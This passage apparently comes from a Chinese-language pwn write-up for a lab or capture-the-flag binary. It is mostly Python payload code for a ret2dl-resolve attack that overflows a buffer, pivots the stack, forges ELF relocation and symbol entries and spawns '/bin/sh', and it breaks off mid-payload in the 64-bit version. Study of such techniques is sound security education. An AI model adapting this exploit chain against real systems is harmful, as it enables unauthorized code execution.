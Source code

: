 
32 位下的构造如下：

```python
payload = (
	((
		'A' * 18 + # padding
		p32(buf + 1024 + 4) # set esp=buf+1024
	).ljust(1024, '\x00') + # buf+1024
		memcpy(buf + 1024 + 32, r_debug_addr, 4) + # buf+1024+20
		memcpy(buf, 0, 8) + # buf+1024+40 ; link_map=buf+4
		memcpy(buf + 1024 + 72, link_map_addr, 4) + # buf+1024+60
		memcpy(buf + 8, 0, 16) + # buf+1024+80 ; link_map->l_next=buf+20
		memcpy(buf + 1024 + 112, buf + 20, 4) + # buf+1024+100
		memcpy(buf + 8, 0, 16) + # buf+1024+120 ; link_map->l_next->l_next=buf+20
		memcpy(buf + 1024 + 152, buf + 20, 4) + # buf+1024+140
		memcpy(buf + 8, 0, 48) + # buf+1024+160 ; link_map->l_next->l_next->l_info[DT_PLTGOT]=buf+52
		memcpy(buf + 1024 + 192, buf + 52, 4) + # buf+1024+180
		memcpy(buf + 8, 0, 8) + # buf+1024+200 ; .got.plt=buf+12
		memcpy(buf + 1024 + 232, buf + 12, 4) + # buf+1024+220
		memcpy(buf + 8, 0, 12) + # buf+1024+240 ; _dl_runtime_resolve=buf+16
		memcpy(buf + 1024 + 280, dl_runtime_resolve_addr, 4) + # buf+1024+260
		memcpy(buf + 1024 + 284, link_map_addr, 4) + # buf+1024+280
		p32(0) + # _dl_runtime_resolve
		p32(0) + # link_map
		p32(reloc_arg) + # reloc_arg
		p32(0xdeadbeef) +
		p32(buf + 2048 + 36)
	).ljust(2048, '\x00') + # buf+2048
		# Elf32_Rel
		p32(buf) + # r_offset
		p32(0x7 | (((buf + 2048 + 8 + 4 - dynsym) / 16) << 8)) + # r_info
		p32(0) + # padding
		# Elf32_Sym <= buf+2048+12
		p32(buf + 2048 + 28 - dynstr) + # st_name
		p32(0) + # st_value
		p32(0) + # st_size
		p32(0x12) + # st_info
		# buf+2048+28
		'system\x00\x00' +
		'/bin/sh\x00'
)
```

64 位下会需要更长的输入才能完成一系列的构造：

```python
payload = (
	((
		'A' * 14 + # padding
		p64(buf + 1024 - 8) + # set rbp=buf+1024-8
		p64(leave_ret) # stack pivot ; set rsp=buf+1024
	).ljust(1024, '\x00') +
		memcpy(buf + 1024 + 160, r_debug_addr, 8) + # buf+1024+120
		memcpy(buf, 0, 16) + # buf+1024+240 ; link_map_addr=buf+8
		memcpy(buf + 1024 + 400, link_map_addr, 8) + # buf+1024+360
		memcpy(buf + 16, 0, 32) + # buf+1024+480 ; l->l_next=buf+40
		memcpy(buf + 1024 + 640, buf + 40, 8) + # buf+1024+600
		memcpy(buf + 16, 0, 32) + # buf+1024+720 ; l->l_next->l_next=buf+40
		memcpy(buf + 1024 + 880, buf + 40, 8) + # buf+1024+840
		memcpy(buf + 16, 0, 96) + # buf+1024+960 ; l->l_next->l_next->l_info[DT_PLTGOT]=buf+104
		memcpy(buf + 1024 + 1120, buf + 104, 8) + # buf+1024+1080
		memcpy(buf + 16, 0, 16) + # buf+1024+1200 ; .got.plt=buf+24
		memcpy(buf + 1024 + 1360, buf + 24, 8) + # buf+1024+1320
		memcpy(buf + 16, 0, 24) + # buf+1024+1440 ; _dl_runtime+resolve=buf+32
```